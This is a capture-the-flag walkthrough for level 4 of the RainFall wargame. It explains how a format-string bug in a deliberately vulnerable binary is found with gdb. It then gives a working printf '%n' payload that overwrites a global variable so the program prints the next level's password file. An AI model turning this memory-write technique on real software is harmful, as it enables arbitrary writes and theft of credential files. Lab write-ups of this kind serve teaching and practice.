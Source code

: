 # level 04

The program doesn't seems to wait for parameters but read `stdin` and print it to `stdout`. It doesn't looks like to segfault with large strings :

```bash
level4@RainFall:~$ python -c 'print "A" * 600' python -c 'print "A" * 10' | ./level4
AAAAAAAAAA
level4@RainFall:~$ python -c 'print "A" * 20' | ./level4
AAAAAAAAAAAAAAAAAAAA
level4@RainFall:~$ python -c 'print "A" * 200' | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

By looking at the assembly code, we can see that the function to inspect is the `n` function.


#Format String 2  
  
## Disassembled code  
`gdb -batch -ex "set disassembly-flavor intel" -ex "disas main" -ex "disas n" -ex "disas p" "level4" | GREP_COLOR='01;31' grep  --color=always -z 'printf\|+59\|+64'`  
![alt IMAGE] (Ressources/disassembled.png)  
  
  
##walkthrough  
At *n+59 we can see a cmp $eax with 0x1025544 and at *n+64 a jne to exit the program if the compare is not equal.  
  
if we jump from *n+64 to *n+66 and break at *n+73, we can see the system parameter is "/bin/cat /home/user/level5/.pass", if we bypass the jne at *n+59 we have the flag, but how we can do it ?  
  
If we break at *p+12 the printf parameter is our user input, the same bug as the previous exercise !  
  
Ok, "%x" print the address, and if we pass '\x41\x41\x41\x41' and break at *p+17 just after printf, and examin the top of the stack, we can see at "x/20x $esp+48" our string.  
You can use my 'loop\_address.py' to find the good parameter.  
  
ok. We have to replace the value of the 0x8049810 address, we proceed like the previous exercise in gdb:  
  
r <<\<$(python -c "print '\x10\x98\x04\x08' + '%16930112x' + '%12\$n'")
  
ok, it's works.  
  
try this in real environment to print the flag:  
(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"') | ./level4  
